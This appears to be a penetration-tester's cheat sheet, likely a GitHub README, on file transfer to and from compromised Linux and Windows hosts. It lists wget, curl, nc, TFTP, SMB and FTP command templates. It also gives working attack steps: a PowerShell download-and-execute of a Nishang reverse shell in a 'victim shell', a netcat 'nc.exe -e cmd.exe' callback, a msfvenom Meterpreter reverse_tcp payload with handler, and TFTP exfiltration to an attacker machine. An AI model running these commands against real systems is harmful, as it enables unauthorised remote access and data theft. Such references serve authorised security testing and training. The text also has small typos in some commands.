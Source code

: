 - [Linux](#Linux)
  - [wget](#wget)
  - [curl](#curl)
  - [nc](#nc)
  - [tftp](#tftp)
  - [axel](#axel)
  - [php](#php)
  - [scp](#scp)
  - [ssh](#ssh)
  
- [Windwos](#windows)
  - [FTP](#FTP)
  - [TFTP](#TFTP)
  - [SMB](#SMB)
  - [Nishang](#Nishang)
  - [Netcat](Netcat)
  - [Meterpreter](Meterpreter)
  - [Impacket](Impacket)

## Linux 

### wget
```
wget [url/with/file] -p [local/path]
```
### curl
```
curl -O [url/with/file]
```
### nc
```
nc -lvp [port] > sending.file
```
### tftp

- service atftpd start

### axel
```
transfer file from a FTP or HTTP server through multiple connections.
axel -n 10 --output=axel-test100Mb.db http://speedtest.ftp.otenet.gr/files/test100Mb.db

```

```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
### php

### scp 

### ssh

#### puts file to the attacking machine
ssh root@[ip] "cat > proof.txt < proof.txt"

#### Get files from the attacking machine
ssh root@[ip] "cat exploit" > "exploit

## Windows 

### HTTP Download file with with PowerShell
#### (new-object System.Net.WebClient).DownloadFile('http://[ip]/file.exe','D:\User\name\Desktop\file.exe')

### FTP 
#### In linux machine install python-pyftpdlib
```
- apt-get install python-pyftpdlib
- python -m pyftdlib -p 21
If you want to grant the anonymous user write access, add the -w flag as well.

On windows
- ftp [linux_ip]
- binary
- get file.exe
```
### TFTP
#### In linux machine strtign the server 
- service atftpd start
```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
- On windows
- tftp -i [linux_ip] GET file.exe

Exfiltrating files via TFTP is simple as well with the PUT action. The Metasploit server saves them in /tmp by default
- tftp -i linux-ip PUT file.txt

### SMB
- In linux machine, download smbserver.py from impacket project https://github.com/SecureAuthCorp/impacket
```
python smbserver.py ROPNOP /root/shells
```
- In windows machine
```
- dir \\[linux_ip]\ROPNOP
- copy \\[linux_ip]\ROPNOP\file.exe
```

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
  
#### Netcat
- smbserver.py  
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

- create directory (for example test)
cp nc.exe to test

- run smbserver
python smbserver.py test smb

- run local nc
nc -lnvp 443

-In the victim shell
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]

#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp

#### Impacket 
- https://github.com/SecureAuthCorp/impacket
